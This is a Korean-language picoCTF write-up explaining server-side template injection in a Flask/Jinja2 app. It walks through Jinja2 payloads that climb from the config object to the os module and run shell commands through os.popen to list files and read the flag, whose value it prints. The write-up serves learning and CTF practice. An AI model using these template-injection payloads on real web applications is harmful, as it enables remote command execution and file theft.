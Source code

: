 # Challenge: picoCTF - SSTI

## 문제 설명 & 접근
Server-Side Template Injection(서버 측 템플릿 인젝션, SSTI) 취약점
form에 {{1+1}}을 입력하여 제출하면 화면에 2가 뜬다.=> jinja2

## 필요한 개념
#### 템플릿 랜더링
1. 사용자 입력이 템플릿 엔진으로 처리될 때, 적절한 검증이 없어 악의적인 입력이 서버에서 실행될 수 있는 취약점
2. 주로 python (jinja2), PHP (Twig), Java(FreeMarker)와 같은 서버에서 템플릿 랜더링 쓰는 환경에서 발생
3. 참고로 CTF 대부분은 Python Flask 기반 웹앱을 사용하며 Flask는 기본 템플릿 엔진으로 jinja2를 사용한다.

#### 내부 객체 접근
jinja2에서 공격자가 접근 가능한 템플릿 상수 객체에 config, self, request 등이 있다.
1. `config` : 현재 환경의 config 객체
2. `config.__class__` : config 객체의 클래스 (Flask Config class)
3. `config.__class__.__init__` : 클래스 생성자 함수
4. `config.__class__.__init__.globals__` : 생성자의 전역변수 딕셔너리
* `__globals__`라는 속성은 python에서 클래스나 객체에는 없고, 함수 객체에 존재한다. 보통 init의 전역공간에 os, sys, builtins 등의 모듈이 올라와있으니 이걸 활용하면 그 함수가 이미 import한 걸 재활용 가능(아래 내용 참고)
* 일반적으로 템플릿은 샌드박스 환경이기에 import는 할 수 없다. 그래서 위와 같은 간접적인 방식을 사용하는 것

#### 파이썬에서의 import
1. python에서 어떤 함수나 클래스가 정의될 때 그 함수가 포함된 파일의 가장 상단에 import된 모듈은 그 함수의 global namespace에 들어간다. 
    ```python
    # config.py
    import os

    class Config:
        def __init__(self):
            self.secret = os.getenv("SECRET")  # os 사용함
    ```
위 코드에서 init 함수는 정의할 때 os를 쓸 수 있었다. 따라서 `config.__init__.__globals.__['os']`라 쓰면 os 모듈 객체를 그대로 쓸 수 있다.

## 문제 분석
1.config를 입력하면 아래 출력물이 나온다. 이는 flask 내부의 config 클래스 인스턴스
```html
<Config {'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'SECRET_KEY': None, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}>
```
2.이제 `{{config.__class__}}`를 입력해보자. 아래 출력물이 나온다.
<class 'flask.config.Config'> 

3.`{{config.__class__.__init__.__globals__}}`를 입력하면, 전역변수가 쭉 출력된다.
4.`{{config.__class__.__init__.__globals__['os']}}`를 입력하면 dict의 value가 다음과 같이 나온다. 
<module 'os' from '/usr/lib/python3.8/os.py'>

5.`{{config.__class__.__init__.__globals__['os'].popen('pwd').read()}}`로 현재 디렉터리 확인 가능. /challenge라 뜬다. os.popen()은 python에서 리눅스 명령어를 실행하고, 그 출력 결과를 python에서 읽어오는 함수

6.`{{config.__class__.__init__.__globals__['os'].popen('ls -al').read()}}`로 디렉터리 내 파일을 보면 flag라는 이름을 가진 파일이 있다. 



## ✅ 풀이

```python
{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read() }}
```
결과
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_424a1494}
